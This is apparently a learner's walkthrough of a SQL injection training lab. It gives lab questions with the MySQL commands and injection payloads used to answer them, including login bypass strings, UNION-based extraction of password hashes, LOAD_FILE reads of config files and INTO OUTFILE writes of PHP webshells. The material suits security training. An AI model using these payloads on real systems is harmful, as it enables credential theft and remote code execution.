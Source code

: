 ## Intro to MySQL

>**Q. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

```bash
mysql -u root -h 94.237.59.206 -P 35744 -p
```
```sql
SHOW DATABASES;
```

## SQL Statements

>**Q. What is the department number for the 'Development' department?**

```sql
SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM departments;
```

## Query Results

>**Q. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

```sql
SELECT * FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';
```

## SQL Operators

>**Q. In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

```sql
SELECT * FROM titles;

SELECT * FROM titles WHERE emp_no > 10000 OR title !='engineer';

```

## Subverting Query Logic

>**Q. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

tom' OR '1'='1

## Using Comments

>**Q. Login as the user with the id 5 to get the flag.**

```bash
user' OR id=5)--    
```

## Union Clause

>**Q. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

```bash
mysql -u root -h 94.237.54.69 -P 59629 -p
```

```sql
SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM employees;

SELECT * FROM departments; 

SELECT dept_no FROM departments UNION SELECT emp_no FROM employees;
```

## Union Injection

>**Q. Use a Union injection to get the result of 'user()'**

```sql
' order by 1-- -

es' UNION select 1,2,3,4-- -

' UNION select 1,@@version,3,4-- -

es' UNION select 1,user(),3,4-- -
```
## Database Enumeration

>**Q. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

```sql
cn' UNION select 1, username, password, 4 from users-- -
```

## Reading Files

>**Q. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

## Writing Files

>**Q. Find the flag by using a webshell.**

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell10.php'-- -
```

## Skills Assessment - SQL Injection Fundamentals

>**Q. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

```sql

' or 1=1 limit 1 -- -+

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- -

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "","",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -

cn' union select "","",'<?php system("dir /"); ?>', "", "" into outfile '/var/www/html/dashboard/shell6.php'-- -

cn' union select "","",'<?php system("cat /flag_....txt"); ?>', "", "" into outfile '/var/www/html/dashboard/shell8.php'-- -
```
